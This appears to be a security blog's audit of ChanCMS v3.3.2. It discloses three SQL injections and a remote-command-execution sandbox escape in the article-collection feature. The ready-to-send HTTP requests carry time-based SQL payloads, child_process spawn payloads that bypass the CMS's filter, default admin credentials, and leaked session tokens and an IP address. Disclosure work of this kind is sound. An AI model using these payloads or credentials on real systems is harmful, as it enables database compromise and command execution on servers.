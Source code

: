 ```yaml
---
title: ChanCMSv3.3.2
---
```


*Author：Narcher*	*Date：2025/10/5*	*Category：Vulnerability Discovery*

<!--more-->

> Project Source Code: [ChanCMS: ChanCMS is a high-quality and practical CMS system developed based on Node, Express 5, MySQL, and Vue 3. Lightweight, flexible, stable, high-performance, and easily extensible, it makes development simpler.](https://gitee.com/chancms/ChanCMS)
>
> Project Version: v3.3.2

The following are the four vulnerabilities identified during the audit:

### /cms/article/findField

After downloading the source code, deploy it directly and log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing reveals that the `findField` function in `/cms/article/findField?cid=8` does not validate the input parameters.

<img src="ChanCMSv3.3.2/image-20251005195854334.png" alt="image-20251005195854334" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251005195950511.png" alt="image-20251005195950511" style="zoom:50%;" />

By modifying the `cid` parameter, SQL injection can be performed:

<img src="ChanCMSv3.3.2/image-20251005203317104.png" alt="image-20251005203317104" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251005200056475.png" alt="image-20251005200056475" style="zoom:50%;" />

Directly modifying the URL requires adding a token, which is obtained after logging in as **chancms**.
 The contents of `d.txt` are as follows:

```
GET /cms/article/findField?cid=1 HTTP/1.1
Host: 192.168.58.128:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk2NTgwNTAsImV4cCI6MTc1OTc0NDQ1MH0.TUAhZOpCwbRrLIm47WHbfneK-lomsez0IJT9LwPgqIM
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk2NTgwNTAsImV4cCI6MTc1OTc0NDQ1MH0.TUAhZOpCwbRrLIm47WHbfneK-lomsez0IJT9LwPgqIM; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list
Connection: keep-alive
```

When running locally you can see a WAF is present, but it failed to block the payload:
 `/cms/article/findField?cid=1+AND+(SELECT+1103+FROM+(SELECT(SLEEP(5)))vbUE)`

<img src="ChanCMSv3.3.2/image-20251005200453009.png" alt="image-20251005200453009" style="zoom:50%;" />

The SQL injection is successful.



### /cms/article/update

Log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing revealed that the `update` function in `/cms/article/update` does not validate the `cid` parameter.

<img src="ChanCMSv3.3.2/image-20251005201715297.png" alt="image-20251005201715297" style="zoom:50%;" />

```
[Vuln: sqldet]
Target           "http://192.168.58.128:3000/cms/article/update"
VulnType         "blind-based/default"
Payload          "(select*from(select+sleep(2)union/**/select+1)a)"
Position         "body"
ParamKey         "id"
ParamValue       "(select*from(select+sleep(2)union/**/select+1)a)"
sleep_time       "2000"
p_time           "11"
n_time           "4013"
stat             "{\"normal\":{\"samples\":[107,112,88,75,58,56],\"avg\":82.66666666666667,\"std_dev\":21.830152440043918,\"sleep_time\":2},\"sleep_0_time\":11,\"quick_check\":{\"samples\":[4013],\"sleep\":2},\"verify\":{\"samples\":[6013,6012,6011],\"sleep\":3}}"
title            "Generic MySQL time based case [number/column]"
type             "time_based"
avg_time         "82"
std_dev          "21"
```

<img src="ChanCMSv3.3.2/image-20251006123321111.png" alt="image-20251006123321111" style="zoom: 33%;" />

 The contents of `d.txt` are as follows:

```
POST /cms/article/update HTTP/1.1
Host: 192.168.58.128:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MjQ4NDgsImV4cCI6MTc1OTgxMTI0OH0.9PY83sb3PNmXkGHggc0SqMffRmb6gXWc8vobB4GhMzw
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MjQ4NDgsImV4cCI6MTc1OTgxMTI0OH0.9PY83sb3PNmXkGHggc0SqMffRmb6gXWc8vobB4GhMzw
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cid=111111
```



### /cms/collect/getArticle

Although the `getArticle` function in `app/modules/cms/controller/collect.js` uses `app/middleware/guard.js` as a WAF to intercept requests, the WAF is incomplete and can be bypassed.

<img src="ChanCMSv3.3.2/image-20251006161304637.png" alt="image-20251006161304637" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251006161531724.png" alt="image-20251006161531724" style="zoom:50%;" />

First, log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`:

<img src="ChanCMSv3.3.2/image-20251006161659610.png" alt="image-20251006161659610" style="zoom: 33%;" />

POC:

```
POST /cms/collect/getArticle HTTP/1.1
Host: 192.168.58.128:3000
Content-Length: 301
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
Accept: application/json, text/plain, */*
Content-Type: application/json; charset=UTF-8
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MzIxNjMsImV4cCI6MTc1OTgxODU2M30.urN857ZVdmYALnKilKjCQUKQreHxLvibEcK1gHrMnWE
Origin: http://192.168.58.128:3000
Referer: http://192.168.58.128:3000/public/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MzIxNjMsImV4cCI6MTc1OTgxODU2M30.urN857ZVdmYALnKilKjCQUKQreHxLvibEcK1gHrMnWE; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list
Connection: keep-alive

{"taskUrl":"http://opinion.people.com.cn/n1/2025/1006/c1003-40577077.html","titleTag":"#newstit","articleTag":".rm_txt_con","parseData":"return (p => p.getBuiltinModule('child_process').spawnSync('whoami', [], {}).output[1].toString())(this.constructor.constructor('return process')())","charset":"1"}
```

<img src="ChanCMSv3.3.2/image-20251006161752136.png" alt="image-20251006161752136" style="zoom:50%;" />

Allows direct command execution.

If the target Node.js is an older version, the following POC can be used:

```
return this.constructor.constructor('return process')().mainModule.require('child_process').execSync('id').toString()
```



### /cms/model/hasUse

Log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing revealed that the `hasUse` function in `/cms/model/hasUse?id=1` does not validate the `id` parameter.

<img src="ChanCMSv3.3.2/image-20251006170206614.png" alt="image-20251006170206614" style="zoom:67%;" />

<img src="ChanCMSv3.3.2/image-20251006200453286.png" alt="image-20251006200453286" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251006200511107.png" alt="image-20251006200511107" style="zoom:50%;" />

